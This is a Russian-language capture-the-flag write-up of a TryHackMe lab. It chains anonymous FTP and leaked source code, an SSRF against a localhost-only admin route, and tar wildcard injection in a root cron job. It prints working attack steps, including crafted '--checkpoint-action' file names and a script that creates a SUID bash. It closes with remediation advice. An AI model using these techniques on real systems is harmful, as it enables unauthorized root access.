

# Operation Coldstart

> Цепочка от анонимного FTP и раскрытия исходного кода до SSRF, SSH-доступа и повышения привилегий через Tar Wildcard Injection в задаче `cron`.

## Общая информация

| Параметр | Значение |
| --- | --- |
| Платформа | TryHackMe |
| ОС | Linux |
| Категория | Web / Linux Privilege Escalation |
| Основные техники | Anonymous FTP, source disclosure, SSRF, SSH, cron abuse, tar wildcard injection |

## Краткое резюме

Анонимный FTP предоставил резервную копию исходного кода веб-приложения. Анализ `app.py` показал, что сервис предпросмотра URL разрешает запросы к `kestrel.thm`, который на целевой системе разрешается в `127.0.0.1`, а административные маршруты защищены только проверкой исходного IP. SSRF через `/preview` позволила обратиться к `/admin/notes` с loopback-адреса и получить SSH-учётные данные пользователя `webdev`.

После подключения по SSH была обнаружена задача `cron`, каждую минуту запускавшая `tar ... *` от имени `root` в каталоге, доступном `webdev` для записи. Специально сформированные имена файлов `--checkpoint=1` и `--checkpoint-action=exec=sh s.sh` были интерпретированы `tar` как параметры и привели к созданию SUID-копии `bash`, что обеспечило оболочку с привилегиями `root`.

## Разведка

### Первичное сканирование портов

Для определения доступных TCP-портов было выполнено первичное сканирование целевой системы с помощью `nmap`:

```bash
nmap TARGET_IP
```

Результат:

```text
Host is up (0.00034s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

Были обнаружены следующие открытые порты:

| Порт | Предполагаемый сервис | Назначение |
|---|---|---|
| `21/tcp` | FTP | Передача файлов |
| `22/tcp` | SSH | Удалённый доступ к системе |
| `80/tcp` | HTTP | Веб-приложение |

Первоначально основное внимание было уделено веб-приложению на порту `80/tcp`. FTP и SSH были зафиксированы как дополнительные потенциальные точки входа.

### Анализ веб-приложения

Главная страница приложения была открыта во встроенном браузере Burp Suite.



На странице была обнаружена форма **URL Preview Service**, предназначенная для получения содержимого указанного URL. Для определения механизма фильтрации в форму был передан внешний адрес:

```text
https://example.com
```

Приложение вернуло сообщение:

```text
Host not in the approved internal allow-list.
```

Ответ указывал на наличие списка разрешённых внутренних узлов. Поскольку сервер самостоятельно выполнял запрос к переданному URL, функция была отмечена как потенциально уязвимая к SSRF — обращению к ресурсам от имени серверного приложения.

Для поиска дополнительных HTTP-маршрутов был использован `Gobuster`:

```bash
gobuster dir \
  -u http://TARGET_IP \
  -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

Фрагмент результата:

```text
/admin                (Status: 308) [Size: 243] [--> http://TARGET_IP/admin/]
/preview              (Status: 400) [Size: 2493]
```

Маршрут `/admin` перенаправлял запрос на `/admin/`, однако прямое обращение к административному разделу не предоставляло доступ к его содержимому. Маршрут `/preview` соответствовал функции предварительного просмотра URL и требовал входного параметра.

### Исследование FTP-сервера

На FTP-сервере была проверена возможность анонимной аутентификации:

```bash
ftp TARGET_IP
```

Результат:

```text
Connected to TARGET_IP.
220 (vsFTPd 3.0.5)
Name (TARGET_IP:root): anonymous
230 Login successful.
```

Сервер разрешил вход под учётной записью `anonymous`. В каталоге `/pub` был обнаружен архив `backup.tar.gz`, содержащий резервную копию веб-приложения.

Структура архива:

```text
voltlabs-preview/
├── README.md
├── app.py
└── requirements.txt
```

Файл `README.md` содержал следующую информацию:

```markdown
# Volt Labs URL Preview

Internal staging tool. Run with `gunicorn -b 0.0.0.0:80 app:app`.

Admin routes are gated by source-IP check (localhost only).
```

Из документации следовало, что административные маршруты ограничены проверкой исходного IP-адреса и доступны только с локального интерфейса.

Файл `requirements.txt` указывал на использование Flask, Requests и Gunicorn:

```text
flask
requests
gunicorn
```

### Анализ исходного кода

В файле `app.py` был обнаружен список разрешённых узлов:

```python
# Internal hostname resolves to 127.0.0.1 via /etc/hosts on this box.
ALLOWED_HOSTS = {"kestrel.thm"}
```

Обработчик `/preview` проверял только имя узла:

```python
@app.route("/preview")
def preview():
    ...
    host = (urlparse(target).hostname or "").lower()
    if host not in ALLOWED_HOSTS:
        return page(
            "Preview Blocked",
            '<div class="card"><p>Host not in the approved internal allow-list.</p></div>'
        ), 403
```

Проверка не ограничивала путь URL и позволяла приложению обращаться к любому HTTP-маршруту на разрешённом узле `kestrel.thm`. Согласно комментарию в исходном коде, это имя разрешалось в `127.0.0.1` на целевой системе.

Административный обработчик имел следующий вид:

```python
@app.route("/admin/")
@app.route("/admin/<path:p>")
def admin(p="index"):
    if not request.remote_addr.startswith("127."):
        abort(403)
    if p == "notes":
        with open("/opt/voltlabs-preview/admin_notes.txt") as f:
            return "<pre>" + f.read() + "</pre>"
    return "<pre>Volt Labs admin endpoint.</pre>"
```

Прямой внешний запрос блокировался проверкой `request.remote_addr`. Однако запрос, выполненный самим приложением через `/preview`, исходил с loopback-адреса и удовлетворял этой проверке. Маршрут `/admin/notes` дополнительно раскрывал содержимое файла `admin_notes.txt`.

## Получение первоначального доступа

### Эксплуатация SSRF

Для обращения к внутреннему административному маршруту в форму предварительного просмотра был передан следующий URL:

```text
http://kestrel.thm/admin/notes
```

Приложение выполнило запрос к разрешённому внутреннему имени и вернуло содержимое административных заметок:

```text
<pre>=== INTERNAL ===
SSH access for staging:
  user: webdev
  pass: #####
- Mara
</pre>
```

В результате были получены учётные данные пользователя `webdev`, предназначенные для подключения к staging-серверу по SSH.

### Подключение по SSH

Для получения интерактивного доступа к системе было выполнено подключение по SSH:

```bash
ssh webdev@TARGET_IP
```

После успешной аутентификации был определён контекст текущей сессии:

```bash
id
whoami
hostname
pwd
```

Результат:

```text
uid=1001(webdev) gid=1001(webdev) groups=1001(webdev)
webdev
coldstart
/home/webdev
```

Первоначальный доступ был получен от имени непривилегированного пользователя `webdev`.

### Получение пользовательского флага

В домашнем каталоге пользователя был обнаружен файл `user.txt`:

```bash
cat ~/user.txt
```

Полученное значение подтвердило успешное выполнение этапа первоначального доступа.

## Повышение привилегий

### Анализ запланированных задач

Для поиска системных задач `cron` было просмотрено содержимое каталога `/etc/cron.d`:

```bash
ls -la /etc/cron.d
```

Результат:

```text
e2scrub_all  sysstat  voltlabs-backup
```

Содержимое файла `/etc/cron.d/voltlabs-backup`:

```bash
cat /etc/cron.d/voltlabs-backup
```

```text
# Volt Labs staging backup - runs as root
SHELL=/bin/bash
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

* * * * * root cd /opt/backups && tar czf /var/backups/uploads.tgz *
```

Задача выполнялась каждую минуту от имени `root`. После перехода в `/opt/backups` команда `tar` архивировала все элементы каталога с помощью подстановочного символа `*`.

### Проверка условий эксплуатации

Для эксплуатации требовалась возможность создавать файлы в рабочем каталоге задачи. Успешное создание подготовленных файлов в `/opt/backups` подтвердило наличие необходимых прав записи.

Для полноты и воспроизводимости отчёта права каталога следовало отдельно зафиксировать командой:

```bash
ls -ld /opt/backups
```

### Эксплуатация Tar Wildcard Injection

При обработке подстановочного символа оболочка заменяет `*` именами файлов из текущего каталога. Если имя файла начинается с `--`, `tar` может интерпретировать его как параметр командной строки.

Для получения привилегированной оболочки в `/opt/backups` был создан скрипт `s.sh`:

```bash
cd /opt/backups

cat > s.sh <<'EOF'
#!/bin/bash
cp /bin/bash /tmp/bash
chmod 777 /tmp/bash
chmod a+s /tmp/bash
EOF
```

Затем были созданы два специально сформированных файла:

```bash
printf '' > '--checkpoint=1'
printf '' > '--checkpoint-action=exec=sh s.sh'
```

После раскрытия `*` команда `tar` интерпретировала имена этих файлов как параметры:

```text
--checkpoint=1
--checkpoint-action=exec=sh s.sh
```

Параметр `--checkpoint=1` активировал контрольную точку после обработки первого элемента, а `--checkpoint-action=exec=sh s.sh` заставил `tar` выполнить скрипт. Поскольку задача `cron` запускалась от имени `root`, файл `/tmp/bash` был создан владельцем `root` с установленным SUID-битом.

После очередного запуска задачи были проверены атрибуты файла:

```bash
ls -l /tmp/bash
```

Для запуска оболочки с сохранением эффективного идентификатора пользователя использовался параметр `-p`:

```bash
/tmp/bash -p
```

Проверка полученных привилегий:

```bash
whoami
```

Результат:

```text
root
```

Таким образом, было достигнуто выполнение команд с привилегиями `root`.

### Получение системного флага

После повышения привилегий был прочитан системный флаг:

```bash
cat /root/flag.txt
```

Получение файла подтвердило полную компрометацию целевой системы.

## Рекомендации

1. Отключить анонимную аутентификацию на FTP либо строго ограничить публикуемые файлы. Резервные копии исходного кода не должны размещаться в общедоступных каталогах.
2. Для функции предварительного просмотра URL разрешать только необходимые схемы, повторно проверять IP-адрес после DNS-разрешения и перенаправлений, а также блокировать loopback-, private-, link-local- и иные служебные диапазоны.
3. Исключить хранение паролей в исходном коде, заметках и других текстовых файлах. Скомпрометированные учётные данные необходимо немедленно заменить.
4. Не использовать подстановочный символ `*` в привилегированных задачах для каталогов, доступных непривилегированным пользователям. Безопаснее передавать `tar` фиксированный путь, например:

   ```bash
   tar -C /opt/backups -czf /var/backups/uploads.tgz -- .
   ```

5. Ограничить права записи в `/opt/backups` и запускать резервное копирование от отдельной служебной учётной записи с минимально необходимыми привилегиями.
6. Настроить регулярную проверку staging-систем, удалить неиспользуемые сервисы и исключить использование устаревших тестовых серверов в доступном сетевом сегменте.

## Итог

Целевая система была полностью скомпрометирована. Первоначальный доступ был получен благодаря совокупности анонимного FTP-доступа, раскрытия исходного кода, SSRF и хранения SSH-учётных данных во внутреннем файле. Повышение привилегий стало возможным из-за выполнения небезопасной команды `tar` от имени `root` в каталоге, доступном непривилегированному пользователю для записи.

Ключевой причиной компрометации являлась не одна изолированная ошибка, а последовательность взаимосвязанных недостатков конфигурации и разработки.

## Дополнительные материалы

- [Tar Wildcard Injection — Linux Privilege Escalation](https://morgan-bin-bash.gitbook.io/linux-privilege-escalation/tar-wildcard-injection-privesc)

## Ключевые выводы

- Публичная резервная копия исходного кода раскрывает внутреннюю архитектуру и ограничения приложения, значительно упрощая поиск уязвимостей.
- Allow-list по hostname недостаточен для защиты от SSRF, если разрешённое имя резолвится в loopback или другой служебный диапазон.
- Проверка административного маршрута только по `request.remote_addr` не защищает от серверных запросов, инициированных самим приложением.
- Использование wildcard в привилегированной команде `tar` опасно в каталоге, куда непривилегированный пользователь может создавать файлы.

## Использованные инструменты

| Инструмент | Использование |
| --- | --- |
| `Nmap` | Сканирование портов |
| `Gobuster` | Поиск HTTP-маршрутов |
| `FTP` | Анонимный доступ и получение резервной копии |
| `SSH` | Первоначальный доступ |
| `tar` | Вектор повышения привилегий через wildcard injection |

## Примечание

> Материал подготовлен в образовательных целях. Все действия выполнялись в контролируемой лабораторной среде TryHackMe.
